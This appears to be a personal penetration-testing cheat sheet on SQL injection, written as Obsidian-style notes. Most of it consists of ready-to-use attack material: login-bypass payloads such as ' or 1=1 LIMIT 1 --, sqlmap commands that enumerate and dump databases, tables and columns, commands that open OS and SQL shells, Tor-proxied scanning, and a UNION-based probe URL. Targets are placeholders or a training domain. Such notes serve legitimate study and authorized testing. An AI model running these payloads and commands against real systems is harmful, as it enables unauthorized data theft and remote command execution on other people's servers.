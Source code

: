 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #web-enumeration 

Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

## Enumerate tables
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

## Dump table data
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
## Dump Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" -C "COLUMN" --dump
## List Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" --columns
## Specify parameter to exploit
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1=value1&param2=value2" --dbs -p param2

##  Specify parameter to exploit in 'nice' URIs
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1/value1*/param2/value2" --dbs # exploits param1

## Get OS shell
- sqlmap --dbms=mysql -u "$URL" --os-shell

## Get SQL shell
- sqlmap --dbms=mysql -u "$URL" --sql-shell

## SQL query
- sqlmap --dbms=mysql -u https://megacorpone.com -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

## Use Tor Socks5 proxy
- sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u https://megacorpone.com --dbs
## Using SQLMAP with basic authentication or NTLM
- sqlmap -u "http://megacorpone.com/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password
# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
# Resources: 
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
